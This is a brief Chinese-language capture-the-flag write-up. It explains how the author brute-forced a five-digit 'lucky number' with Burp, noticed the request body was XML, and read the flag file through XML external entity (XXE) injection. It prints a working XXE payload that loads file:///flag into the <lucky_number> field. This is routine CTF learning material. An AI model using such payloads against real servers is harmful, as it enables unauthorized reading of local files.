


## XEE

 - 幸运数5位数，burp爆破得到`77777`，给了tips:
    
    
    
 - post的数据在`<licky_number>`这个标签中，由此想到可以注入，刚开始以为是XSS，查了半天也不知道怎么读文件，后来醒过神儿来，这部是XML么，百度了一下，原来是XXE...
    
    ```xml
    <!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///flag"> ]>
    <lucky_number>77777 and flag is &xxe;</lucky_number>
    ```
    
    

